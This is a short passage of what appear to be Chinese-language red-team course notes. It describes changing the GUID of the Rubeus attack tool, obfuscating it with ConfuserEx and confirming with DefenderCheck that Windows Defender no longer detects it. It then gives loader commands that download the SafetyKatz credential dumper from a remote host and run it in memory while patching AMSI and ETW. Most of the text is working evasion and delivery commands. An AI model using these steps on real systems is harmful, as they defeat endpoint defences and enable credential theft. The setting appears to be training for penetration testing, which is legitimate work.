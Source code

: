 ```
000000C0   17 01 00 12 43 6F 70 79  72 69 67 68 74 20 C2 A9   ····Copyright ??
000000D0   20 20 32 30 31 38 00 00  29 01 00 24 36 35 38 63     2018··)··$658c
000000E0   38 62 37 66 2D 33 36 36  34 2D 34 61 39 35 2D 39   8b7f-3664-4a95-9
000000F0   35 37 32 2D 61 33 65 35  38 37 31 64 66 63 30 36   572-a3e5871dfc06
```

这里需要在本地生成一个GUID

```
PS C:\Users\max> New-Guid

Guid
----
2fec7872-7656-46d8-a739-635f07074643


```

修改Assemblyinfo.cs里的第23行
```
[assembly: Guid("2fec7872-7656-46d8-a739-635f07074643")]
```

代码里对这一行的注释是：
> The following GUID is for the ID of the typelib if this project is exposed to COM


vs重新编译以后，使用ConfuserEx再次生成，已可以过WD
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\Rubeus-master\Rubeus\bin\Debug\Confused\Rubeus.exe

OriginalFileDetectionStatus is : NoThreatFound
[+] No threat found in submitted file!
```

# Payload Delivery

## Loader.exe

可用于从文件夹或者url上加载binary（ It can be used to load binary from filepath or URL and patch AMSI & ETW while executing）

```
C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```

在内存中加载(We also have AssemblyLoad.exe that can be used to load the NetLoader in-memory from a URL which then loads a binary from a filepath or URL)
```
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
```